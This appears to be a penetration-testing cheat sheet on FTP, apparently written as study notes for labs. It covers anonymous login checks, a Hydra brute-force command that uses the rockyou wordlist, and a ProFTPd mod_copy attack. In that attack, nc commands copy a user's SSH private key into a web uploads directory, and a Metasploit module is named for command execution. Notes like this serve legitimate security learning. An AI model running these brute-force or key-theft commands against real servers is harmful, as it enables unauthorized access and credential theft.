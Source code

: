 ```yaml
---
layout: default
title: FTP
parent: TCP
nav_order: 4-1
---
```

# FTP | 21
## Methodology
- Check for anonymous login 
```
ftp $IP 21
anonymous : anonymous
```
- If anonymous login doesn't work, move on or try for a brute-force in the background
<br />

## Command Reference
- Download: ```get $file```
- Upload: ```put $file```
<br />

## Brute-Force
- Hydra
``` 
hydra -l username -P /usr/share/worlists/rockyou.txt -f $IP ftp -V
```

## Vulnerabilities
- Always check custom FTP software versions for vulnerabilities on searchsploit/metasploit
<b>Mod_Copy ProFTPd</b>
By using 'CPFR' <file> and 'CPTO' <file> you can copy any protected file into any accessible file location. For example copy a user SSH key:
```
nc $IP 21
site help
214-CPFR <sp> pathname
214-CPTO <sp> pathname
site cpfr /home/user/.ssh/id_rsa
site cpto /var/www/uploads/id_rsa
```

{: .note }
ProFTPd: mod_copy vulnerability - command execution. Use  MSF: use exploit/unix/ftp/proftpd_modcopy_exec) 

